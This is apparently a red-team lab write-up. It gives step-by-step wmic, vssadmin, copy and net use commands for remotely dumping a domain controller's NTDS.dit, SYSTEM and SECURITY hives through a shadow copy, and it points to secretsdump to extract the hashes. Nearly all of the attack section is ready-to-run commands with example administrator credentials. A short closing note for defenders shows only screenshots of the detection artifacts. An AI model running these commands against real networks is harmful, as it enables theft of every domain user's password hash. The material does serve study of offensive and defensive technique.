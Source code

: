 # Dumping Domain Controller Hashes via wmic and Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-23-213609.png)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the above command executed on the attacking machine \(right\) and the files being dumped to c:\temp on the DC01 on the left:

![](../../.gitbook/assets/dc-dump%20%281%29.gif)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-23-222654.png)

Now, of you go extracting hashes with secretsdump as shown here:

{% page-ref page="ntds.dit-enumeration.md" %}

## Observations

A quick note for defenders on the proces ancestry:

![](../../.gitbook/assets/annotation-2019-05-23-213352.png)

and of course commandlines:

![](../../.gitbook/assets/annotation-2019-05-23-223432.png)

as well as service states:

![](../../.gitbook/assets/annotation-2019-05-23-223157.png)

...and of course the lateral movement piece:

![](../../.gitbook/assets/annotation-2019-05-23-230027.png)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)

